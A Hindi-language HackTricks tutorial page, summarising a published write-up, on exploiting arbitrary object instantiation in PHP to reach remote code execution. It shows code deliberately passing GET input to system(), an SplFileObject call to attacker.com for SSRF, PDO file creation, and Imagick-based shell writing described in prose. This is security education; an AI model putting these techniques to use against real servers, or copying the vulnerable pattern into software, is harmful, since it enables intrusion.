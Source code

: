# PHP - RCE वस्तु निर्माण का दुरुपयोग: new $\_GET\["a"]\($\_GET\["b"])

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

यह मुख्य रूप से [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) का सारांश है।

## परिचय

नए विचित्र वस्तुओं का निर्माण, जैसे कि `new $_GET["a"]($_GET["a"])`, दूरस्थ कोड निष्पादन (RCE) में ले जा सकता है, जैसा कि एक [**लेख**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) में विस्तार से वर्णित है। इस दस्तावेज़ ने RCE प्राप्त करने के विभिन्न उपायों पर प्रकाश डाला है।

## कस्टम क्लास या ऑटोलोडिंग के माध्यम से RCE

वाक्यरचना `new $a($b)` का उपयोग एक वस्तु को निर्मित करने के लिए किया जाता है जहाँ **`$a`** वर्ग का नाम प्रस्तुत करता है और **`$b`** निर्माता को पहुंचाया गया पहला तर्क है। ये चर मानक से प्राप्त किए जा सकते हैं जैसे GET/POST से उपयोगकर्ता इनपुट, जहाँ वे स्ट्रिंग या एरे हो सकते हैं, या JSON से, जहाँ वे अन्य प्रकार के हो सकते हैं।

नीचे दिए गए कोड स्निपेट को ध्यान से देखें:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
इस मामले में, `$a` को `App` या `App2` पर सेट करना और `$b` को एक सिस्टम कमांड (जैसे `uname -a`) पर सेट करना उस कमांड का निष्पादन करता है।

**ऑटोलोडिंग फंक्शन** का शोषण किया जा सकता है अगर कोई ऐसी कक्षाएँ सीधे पहुंचने योग्य नहीं हैं। ये फंक्शन फ़ाइलों से कक्षाएँ स्वचालित रूप से लोड करते हैं जब आवश्यक होता है और `spl_autoload_register` या `__autoload` का उपयोग करके परिभाषित किए जाते हैं:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
## RCE के माध्यम से निर्मित कक्षाएं

कस्टम कक्षाओं या autoloaders की कमी में, **वैचारिक PHP कक्षाएं** RCE के लिए पर्याप्त हो सकती हैं। इन कक्षाओं की संख्या PHP संस्करण और एक्सटेंशन पर आधारित 100 से 200 के बीच हो सकती है। इन्हें `get_declared_classes()` का उपयोग करके सूचीत किया जा सकता है।

रिफ्लेक्शन API के माध्यम से रुचि के निर्माता पहचानी जा सकती हैं, जैसा कि निम्नलिखित उदाहरण और लिंक [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF) में दिखाया गया है।

**विशेष विधियों के माध्यम से RCE शामिल हैं:**

### **SSRF + Phar डीसीरियलाइज़ेशन**

`SplFileObject` कक्षा अपने निर्माता के माध्यम से SSRF को सक्षम करती है, जिससे किसी भी URL पर कनेक्शन स्थापित किया जा सकता है:
```php
new SplFileObject('http://attacker.com/');
```
### **PDOs का शोषण करना**

PDO क्लास कंस्ट्रक्टर DSN स्ट्रिंग के माध्यम से डेटाबेस कनेक्शन की अनुमति देता है, जिससे फ़ाइल निर्माण या अन्य बातचीत संभव हो सकती हैं:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHP के संस्करण तक 5.3.22 और 5.4.12 `SoapClient` और `SimpleXMLElement` constructors के माध्यम से XXE हमलों के लिए संवेदनशील थे, libxml2 के संस्करण पर निर्भर करते हैं।

## Imagick Extension के माध्यम से RCE

**परियोजना की आवश्यकताओं** के विश्लेषण में पाया गया कि **Imagick** को नए ऑब्जेक्ट्स बनाकर **कमांड निष्पादन** के लिए उपयोग किया जा सकता है। यह एक असुरक्षितताओं का शोध करने का एक अवसर प्रस्तुत करता है।

### VID पार्सर

फ़ाइल सिस्टम में किसी भी निर्दिष्ट पथ पर सामग्री लिखने की VID पार्सर क्षमता की पहचान की गई। इससे एक PHP शैल को एक वेब-पहुंचने योग्य निर्देशिका में रखने की संभावना है, जिससे दूरस्थ कोड निष्पादन (RCE) हासिल किया जा सकता है।

#### VID पार्सर + फ़ाइल अपलोड

यह नोट किया गया है कि PHP अस्थायी रूप से `/tmp/phpXXXXXX` में अपलोड की गई फ़ाइलें संग्रहित करता है। Imagick में VID पार्सर, **msl** प्रोटोकॉल का उपयोग करके फ़ाइल पथ में वाइल्डकार्ड का संचालन कर सकता है, जो अस्थायी फ़ाइल को चयनित स्थान पर स्थानांतरित करने में सहायक होता है। यह विधि फ़ाइल सिस्टम में विचारपूर्वक फ़ाइल लेखन हासिल करने के लिए एक अतिरिक्त दृष्टिकोण प्रदान करती है।

### PHP क्रैश + ब्रूट फ़ोर्स

[**मौलिक लेखन**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) में एक विधि वर्णित की गई है जिसमें फ़ाइलें अपलोड की जाती हैं जो हटाने से पहले सर्वर को क्रैश करती हैं। अस्थायी फ़ाइल के नाम को ब्रूट फ़ोर्स करके, Imagick को विचारपूर्वक PHP कोड निष्पादित करने की संभावना हो जाती है। हालांकि, यह तकनीक केवल एक पुराने संस्करण के ImageMagick में प्रभावी पायी गई।

## संदर्भ

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** ट्विटर पर **फॉलो** करें 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**।**
* **अपने हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos को PRs सबमिट करके।

</details>
